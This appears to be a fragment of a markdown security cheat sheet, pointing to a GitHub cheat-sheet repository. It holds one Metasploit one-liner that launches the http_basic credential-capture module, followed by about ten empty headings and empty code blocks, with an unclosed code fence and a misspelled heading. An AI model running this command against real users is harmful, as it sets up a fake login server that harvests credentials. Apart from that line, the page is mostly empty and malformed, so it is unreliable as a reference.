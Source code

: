 - 
- [References](#references)

-------------------------------------------

# [One Liner Start Msfonsole](#one-liner-start-meterpreter-1)
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -qx "use auxiliary/server/capture/http_basic;set uripath x;set srvhost tun0;run"

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# [References](#references-1)

